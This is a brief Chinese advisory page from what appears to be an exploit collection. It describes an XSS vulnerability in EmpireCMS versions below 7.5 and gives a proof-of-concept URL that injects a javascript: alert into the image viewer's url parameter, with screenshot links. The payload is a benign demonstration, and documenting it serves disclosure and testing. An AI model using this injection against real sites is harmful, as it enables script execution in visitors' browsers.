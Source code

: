 ```yaml
---
title: 'EmpireCMS 全版本XSS漏洞'
date: Sat, 05 Sep 2020 13:16:35 +0000
draft: false
tags: ['白阁-武器库']
---
```


### 漏洞范围

EmpireCMS 全版本 <7.5

### 漏洞POC

```
http://*******/e/ViewImg/index.html?url=javascript:alert(/xss/)
```

![](https://www.bylibrary.cn/wp-content/uploads/2020/09/K52GS8VKPFJ7RHL7J1.png) ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/PWG@XY7ATDZ@YR.png)